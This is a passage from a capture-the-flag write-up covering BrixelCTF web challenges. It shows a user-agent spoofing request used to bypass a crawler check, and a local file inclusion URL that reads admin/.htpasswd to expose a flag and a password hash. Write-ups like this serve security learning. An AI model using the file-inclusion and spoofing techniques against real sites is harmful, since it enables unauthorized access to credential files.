```jsx
  console.log(password);
}
verify()
"brixelctf{0bfuscati0n}"
```

## Browser check

> I found this weird website, but it will only allow 'ask jeeves crawler' to enter?
Can you get me in?

Checking the link gives the following message:

```jsx
Access denied! Ask Jeeves crawler allowed only!
```

Changing our user agent to Ask Jeeves Crawler's gives us the flag.

```
GET /browsercheck/ HTTP/1.1
Host: timesink.be
User-Agent: Mozilla/2.0 (compatible; Ask Jeeves/Teoma; +http://sp.ask.com/docs/about/tech_crawling.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

```
congratulations
the flag is 'brixelCTF{askwho?}'
```

## Pathfinders #1

> These f*cking religious sects!
These guys brainwashed my niece into their demeted world of i-readings and other such nonsense.
The feds recently closed their churches, but it seems they are preparing for a new online platform to continue their malicious activities.
can you gain access to their admin panel to shut them down?
Their website is: [http://timesink.be/pathfinder/](http://timesink.be/pathfinder/)

After visiting the page we can see that there is a file include for home.php which includes the pages in the url and executes them. 

Checking the links on the page we see that there is a admin/index.php endpoint which requires http authentication usually stored in the .htpasswd file.

Using the page parameter to access admin/.htpasswd gives us the flag.

```
view-source:http://timesink.be/pathfinder/index.php?page=admin/.htpasswd
#normally you would brute force this, but that is not in scope of this challenge. The flag is: brixelCTF{unsafe_include} <br>
admin:$apr1$941ydmlw$aPUW.gCFcvUbIcP0ptVQF0
```
